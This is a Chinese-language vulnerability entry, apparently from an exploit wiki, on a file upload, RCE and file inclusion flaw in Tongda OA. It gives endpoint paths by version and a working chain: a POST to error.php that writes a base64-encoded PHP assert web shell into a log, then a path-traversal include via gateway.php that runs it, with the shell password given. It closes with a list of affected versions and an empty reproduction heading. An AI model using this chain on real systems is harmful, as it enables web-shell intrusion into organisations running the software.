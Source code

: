 ```yaml
---
title: 通达oa 任意文件上传+rce+文件包含
id: zhfly3343
---
```


# 通达oa 任意文件上传+rce+文件包含

## 一、漏洞简介

有些版本gateway.php路径不同

例如2013：

```
http://www.0-sec.org/ispirit/im/upload.php
http://www.0-sec.org/ispirit/interface/gateway.php 
```

例如2017：

```
http://www.0-sec.org/ispirit/im/upload.php
http://www.0-sec.org/mac/gateway.php `C:\MYOA>dir /s /b gateway.php

C:\MYOA\webroot\mac\gateway.php` 
```

2015没有文件包含，官方给的补丁2017的没有修复文件包含，所以还有很多种包含日志文件getshell的姿势，不一定要文件上传。

```
http://www.0-sec.org/api/ddsuite/error.php

POST:message=<?php file_put_contents(“2.php”,base64_decode(“PD9waHAgYXNzZXJ0KCRfUE9TVFsxXSk7Pz4=”));?>52011

然后包含

[http://www.0-sec.org/mac/gateway.php](http://www.0-sec.org/mac/gateway.php)

POST:json={“url”:"…/…/logs/oa/2003/dd_error.log"} `在http://192.168.124.138/mac/2.php就是shell密码1` 
```

## 二、漏洞影响

V11版
2017版
2016版
2015版
2013增强版
2013版

## 三、复现过程
